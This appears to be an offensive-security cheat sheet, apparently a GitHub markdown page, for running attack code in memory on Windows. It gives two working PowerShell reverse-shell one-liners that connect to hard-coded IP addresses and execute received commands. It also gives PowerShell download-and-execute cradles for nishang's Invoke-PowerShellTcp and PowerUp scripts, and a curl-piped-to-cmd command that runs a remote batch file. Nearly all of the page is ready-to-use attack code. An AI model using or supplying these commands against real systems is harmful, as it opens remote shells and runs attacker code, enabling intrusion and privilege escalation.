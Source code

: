 ## Execute Powershell Scripts in Memory

**Reverse Shell**

```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.11.69.250',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

or 

```powershell
$sm=(New-Object Net.Sockets.TCPClient('192.168.254.1',55555)).GetStream();[byte[]]$bt=0..65535|%{0};while(($i=$sm.Read($bt,0,$bt.Length)) -ne 0){;$d=(New-Object Text.ASCIIEncoding).GetString($bt,0,$i);$st=([text.encoding]::ASCII).GetBytes((iex $d 2>&1));$sm.Write($st,0,$st.Length)}
```

*source* https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcpOneLine.ps1

Use the in-memory dowload and execute

		powershell iex (New-Object Net.WebClient).DownloadString('http://<yourwebserver>/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress [IP] -Port [PortNo.]


	powershell iex (New-Object Net.WebClient).DownloadString('http://<yourwebserver>/PowerUp.ps1');Invoke-AllChecks
	
https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1
		
## Execute Bat files in Memory Using Curl

`curl http://server/file.bat | cmd`

